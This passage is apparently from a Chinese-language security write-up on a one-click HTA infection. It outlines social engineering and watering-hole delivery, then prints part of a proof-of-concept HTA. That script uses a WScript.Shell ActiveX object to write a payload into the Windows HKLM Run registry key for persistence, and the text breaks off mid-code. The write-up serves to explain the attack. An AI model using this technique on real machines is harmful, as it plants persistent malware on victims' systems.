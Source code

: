 ![攻击流程.jpg](/img/OneClickInfection/攻击流程.jpg)

### 概念证明

下面所示代码是一个存在于被攻击服务器上HTA文件的源码。假设一个感染情景，用户被社工引诱或者是水坑攻击而访问某网站，然后该网站要求点击运行或执行某个事件，一旦点击执行，该事件将创建一个WScript ActiveX对象，然后创建运行注册表项，使用rundll32弹出JS警告（对于POC）而进行更多其它操作。
```html
/****************************POC*******************************************/

<html>
<head>
<title>RegTest</title>
<script language="JavaScript">
function writeInRegistry(sRegEntry, sRegValue)
{
   var regpath = "HKEY_LOCAL_MACHINE\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run\\" + sRegEntry;
   var oWSS = new ActiveXObject("WScript.Shell");
   oWSS.RegWrite(regpath, sRegValue, "REG_SZ");
}

function readFromRegistry(sRegEntry)
{
   var regpath = "HKEY_LOCAL_MACHINE\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run\\" + sRegEntry;        /*Payload injected in Run registry entry*/
   var oWSS = new ActiveXObject("WScript.Shell");    /*WASCRIPT ActiveX object created which is used to inject the Malicous JS in registry*/
   return oWSS.RegRead(regpath);
}
function tst()
{
```